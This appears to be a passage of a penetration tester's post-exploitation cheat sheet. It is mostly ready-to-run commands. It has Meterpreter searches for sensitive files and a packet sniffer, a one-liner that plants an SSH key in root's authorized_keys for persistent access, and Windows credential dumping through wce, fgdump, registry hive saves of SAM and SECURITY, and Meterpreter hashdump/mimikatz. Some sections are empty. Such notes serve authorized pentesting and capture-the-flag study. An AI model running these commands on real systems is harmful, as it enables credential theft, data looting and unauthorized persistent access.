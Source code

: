 ### Interesting files
```bash
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
use auxiliary/sniffer/psnuffle

.ssh/
.bash_history
```
### Databases
```
```
### SSH-Keys
```bash
mkdir /root/.ssh 2>/dev/null; echo '<your ssh-key>' >> /root/.ssh/authorized_keys
```
### Browser

### Mail
```bash
/var/mail
/var/spool/mail
```
### GUI
If there is a gui we want to check out the browser.
```bash
echo $DESKTOP_SESSION
echo $XDG_CURRENT_DESKTOP
echo $GDMSESSION
```
## Windows
	
### Passwords and hashes
```bash
wce32.exe -w
wce64.exe -w
fgdump.exe

# Loot passwords without tools
reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```
### Dualhomed
```bash
ipconfig /all
route print

```